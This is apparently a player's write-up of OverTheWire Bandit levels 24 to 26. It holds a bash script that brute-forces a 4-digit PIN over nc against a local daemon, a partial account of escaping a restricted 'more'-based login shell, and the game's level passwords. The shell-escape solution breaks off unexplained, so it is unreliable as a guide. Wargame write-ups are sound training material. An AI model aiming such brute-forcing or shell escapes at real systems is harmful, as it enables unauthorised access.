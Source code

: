 # Level 24 - Level 25
A daemon is listening on port **30002** and will give you the password for bandit25 if given the password for bandit24 and **a secret numeric 4-digit pincode**. There is no way to retrieve the pincode except by *going through all of the 10000 combinations, called brute-forcing*.

## Solution

	#!/bin/bash

	for i in {1..10000}; do
		echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> input
	done

	cat input | nc localhost 30002 >> result
	sort result | uniq -u

## Result
- Password: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

# Level 25 - Level 26
Logging in to bandit26 from bandit25 should be fairly easy. The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Solution
View `/etc/passwd` we see the shell of bandit26 is `/usr/bin/showtext`

	#!/bin/sh

	more ~/text.txt
	exit 0

`more`



## Result
- Password: `5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z`

Congratulations on solving the last level of this game!

At this moment, there are no more levels to play in this game. However, we are constantly working
on new levels and will most likely expand this game with more levels soon.
Keep an eye out for an announcement on our usual communication channels!
In the meantime, you could play some of our other wargames.

If you have an idea for an awesome new level, please let us know!
